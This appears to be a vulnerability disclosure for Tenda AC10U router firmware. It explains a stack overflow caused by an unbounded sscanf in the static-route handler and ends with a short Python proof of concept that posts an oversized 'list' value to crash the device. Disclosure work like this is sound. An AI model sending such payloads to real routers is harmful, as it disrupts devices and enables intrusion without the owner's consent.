 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3795.html

## Affected version

AC10U v1.0 Firmware V15.03.06.49

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.49 firmware has a stack overflow vulnerability in the `fromSetRouteStatic` function. The `list` variable receives the `list` parameter from a POST request and is later assigned to function `save_staticroute_data`. 

![image-20240313145650112](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313145650112.png)

In the `save_staticroute_data` function, the `buf` (the value of `list`) is passed to `p` and formatted by the `sscanf` function and in the form of `%[^,],%[^,],%[^,],%s`. This greedy matching mechanism is not secure, as long as the size of the data we enter is larger than the size of `dst_net, net_mask, net_gw, net_ifname`, it will cause a stack overflow.

![image-20240313145839536](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313145839536.png)

![image-20240313145915967](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313145915967.png)

![image-20240313145933991](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313145933991.png)

The user-provided `list` can trigger this security vulnerability.

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetStaticRouteCfg"
payload = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,a,a,aa"

data = {"list": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313150035383](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313150035383.png)